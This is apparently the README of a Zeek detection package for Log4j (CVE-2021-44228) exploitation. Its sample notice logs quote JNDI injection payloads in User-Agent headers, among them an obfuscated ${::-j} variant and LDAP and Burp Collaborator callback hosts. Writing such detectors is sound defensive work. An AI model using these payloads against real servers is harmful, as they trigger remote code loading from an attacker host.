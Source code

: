 =================================================================================
Simple policy to detect  CVE_2021_44228 aka Log4j
=================================================================================

Following functionality are provided by the script
--------------------------------------------------
::
        1) Log4j zeek package identifies CVE_2021_44228 exploitation attempts 
        2) extracts the callback IP + domain and watches  them
        3) builds realtime IoCs from these attacks and realtime adds to the intel-framework

Installation
------------
	zeek-pkg install zeek/initconf/log4j
	or
	@load log4j/scripts


Detailed Notes:
---------------

Detail Alerts and descriptions: Following alerts are generated by the script:
******************************************************************************
This should generate following Kinds of notices:

    - Log4j::UserAgent
	- Log4j::CallBackIP
    -  Log4j::CallBack

Example notice: 
***************************

XXXXXXXXXX.XXXXXX       CmES5u32sYpV7JYN        45.131.195.245  18677   12.23.36.5    80      -       -       -       tcp     Log4j::UserAgent       Malicious user agent Mozilla/5.0 ${jndi:ldap://45.58.177.50:1389/Rsc} seen from host 45.131.195.245     -       45.131.195.245 12.23.36.5    80      -       -       Notice::ACTION_LOG      (empty) 3600.000000     -       -       -       -       -     --

XXXXXXXXXX.XXXXXX       -       45.131.195.245  18677   12.23.36.5    80      -       -       -       tcp     Log4j::CallBackIP     Callback IP [45.58.177.50] seen from host 45.131.195.245 with payload of [[uri=45.58.177.50:1389/Rsc, uri_path=Rsc, stem=45.58.177.50:1389, host=45.58.177.50, port_=1389/tcp]] -       45.58.177.50    12.23.36.5    80      -       -       Notice::ACTION_LOG      (empty)86400.000000    -       -       -       -       -       -       -

XXXXXXXXXX.XXXXXX       CDI95K1GQpHhlE1WO3      192.168.86.35   64759   45.58.177.50    1389    -       -       -       tcp     Log4j::CallBack        Possible Successful Callback seen [45.58.177.50:1389/tcp] : attack connection [orig_h=45.131.195.245, orig_p=18677/tcp, resp_h=12.23.36.5, resp_p=80/tcp]    -       45.58.177.50    45.58.177.50    1389    -       -       Notice::ACTION_LOG      (empty)1800.000000


Complex regexps:

XXXXXXXXXX.XXXXXX       ClEkJM2Vm5giqnMf4h      149.209.6.114   45754   131.177.124.168 80      -       -       -       tcp     Log4j::UserAgent       Malicious user agent ${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://185.254.196.236:1389/jijec} seen from host 149.209.6.114   -       149.209.6.114   131.177.124.168 80      -       -       Notice::ACTION_LOG      (empty) 3600.000000

Embedded domains: 

XXXXXXXXXX.XXXXXX       CtPZjS20MLrsMUOJi2      14.36.22.37     34404   134.93.97.18    80      -       -       -       tcp     Log4j::UserAgent        Malicious user agent Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 root@${jndi:ldap://User-Agent.blah.com.jg33feb5c7b2ui8djt4bb9dntez6nv.burpcollaborator.net/a.bc} seen from host 14.36.22.37    -       14.36.22.37     134.93.97.18    80      -       -       Notice::ACTION_LOG      (empty) 3600.000000

Also resolves the domain and watches for the IP/port:

XXXXXXXXXX.XXXXXX       -       14.36.22.37     34404   134.93.97.18    80      -       -       -       tcp     Log4j::CallBackIP       Callback IP [52.16.21.24] seen from host 14.36.22.37 with payload of [[uri=User-Agent.blah.com.jg33feb5c7b2ui8djt4bb9dntez6nv.burpcollaborator.net/a.bc, uri_path=a.bc, stem=User-Agent.blah.com.jg33feb5c7b2ui8djt4bb9dntez6nv.burpcollaborator.net, host=52.16.21.24, port_=80/tcp]]    -       52.16.21.24 134.93.97.18    80      -       -       Notice::ACTION_LOG      (empty) 86400.000000



Example Summary Notice: 
***************************



